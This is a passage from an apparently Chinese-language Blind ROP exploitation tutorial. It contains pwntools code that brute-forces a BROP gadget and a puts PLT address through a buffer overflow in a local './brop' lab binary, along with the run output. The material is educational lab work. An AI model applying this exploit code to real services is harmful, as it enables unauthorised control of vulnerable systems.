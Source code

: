 ```plain
def get
while 1:
    print hex(addr)
    if get_brop_gadget(buffer_length, stop_gadget, addr):
        print 'possible brop gadget: 0x%x' % addr
        if check_brop_gadget(buffer_length, addr):
            print 'success brop gadget: 0x%x' % addr
            break
    addr += 1
```

```plain
[+] Starting local process './brop': pid 120700
[*] Process './brop' stopped with exit code -11 (SIGSEGV) (pid 120700)
success brop gadget: 0x4007ba
```

5、寻找 puts 或 write 函数的 plt，用于 leak 其它地址的值

```plain
#-*- coding: utf-8 -*-
from pwn import *
from LibcSearcher import LibcSearcher
#context.log_level = 'debug'
#context.arch = 'i386'/'amd64'

## buffer_length = getBufferLength()
buffer_length   = 72
## stop_gadget = getStopAddr(buffer_length)
stop_gadget = 0x4005c0
brop_gadget = 0x4007ba
pop_rdi_ret  = brop_gadget + 9  #解释如下

def GetPutsPlt(buffer_length,stop_gadget,pop_rdi_ret):
    addr = 0x400500
    while 1:
        print(hex(addr))
        try:
            p = process('./brop')
            p.recvuntil('Do you know password?\n')
            payload = 'a'*buffer_length + p64(pop_rdi_ret) + p64(0x400000) + p64(addr) + p64(stop_gadget)
            p.sendline(payload)
            output = p.recv()
            p.close()
            if output.startswith('\x7fELF'):#在没有 PIE 保护的时候，64 位程序的 ELF 文件的 0x400000 处有 7 个非零字节。
                print('puts plt address = 0x%x' % addr)
                return addr
            addr += 1
        except Exception:
            p.close()
            addr += 1

puts_plt_addr = GetPutsPlt(buffer_length,stop_gadget,pop_rdi_ret)
```
